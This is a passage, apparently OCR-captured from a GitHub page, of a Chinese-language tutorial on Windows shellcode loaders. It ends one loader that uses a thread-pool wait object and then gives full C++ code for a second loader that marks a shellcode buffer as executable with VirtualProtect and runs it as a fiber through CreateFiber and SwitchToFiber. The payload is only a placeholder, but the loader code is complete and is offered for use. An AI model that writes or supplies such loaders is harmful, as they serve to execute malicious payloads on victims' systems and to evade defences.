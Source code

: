 ```cpp
    VOID SetThreadpoolWait(
      PTP_WAIT pwa,  //指向要添加到线程池的等待对象的指针
      HANDLE   hObject,  //要等待的内核对象的句柄,当这个内核对象变为有信号状态时,线程池会调用与等待对象关联的回调函数
      PFILETIME pftTimeout  //指向一个FILETIME结构的指针，表示等待超时的时间
    );
    */
    // 将等待对象添加到线程池中,当事件对象event触发（变为有信号状态）时，线程池会调用与threadPoolWait关联的回调函数
    SetThreadpoolWait(threadPoolWait, event, NULL);

    // 等待事件对象变为无信号状态（表示shellcode执行完毕），无限等待
    WaitForSingleObject(event, INFINITE);
}

void main() {
    ThreadPoolLoader();
}
```



# 13.创建纤程加载

## 什么是纤程

纤程（Fiber）是一种轻量级的线程，也被称为协程（Coroutine）或微线程（Microthread）。它们是一种用户级别的线程，由程序自身管理，而不是由操作系统内核管理。纤程是一种可以提高程序执行效率的调度机制，特别适用于需要大量并发执行任务的场景



## 实现代码

```cpp
#include <stdio.h>
#include <Windows.h>

int main() {
    unsigned char buf[] = "shellcode";

    // 修改shellcode所在内存的保护属性为可读、可写、可执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);

    // 将当前线程转换为纤程（轻量级线程）
    ConvertThreadToFiber(NULL);

    // 创建一个纤程对象，关联到shellcode作为纤程入口点，使用默认栈大小和无标志位
    void* shellcodeFiber = CreateFiber(0, (LPFIBER_START_ROUTINE)(LPVOID)buf, NULL);

    // 切换到新创建的纤程，开始执行shellcode
    SwitchToFiber(shellcodeFiber);

    // shellcode执行完毕后，删除纤程对象
    DeleteFiber(shellcodeFiber);

    return 0;
}
```
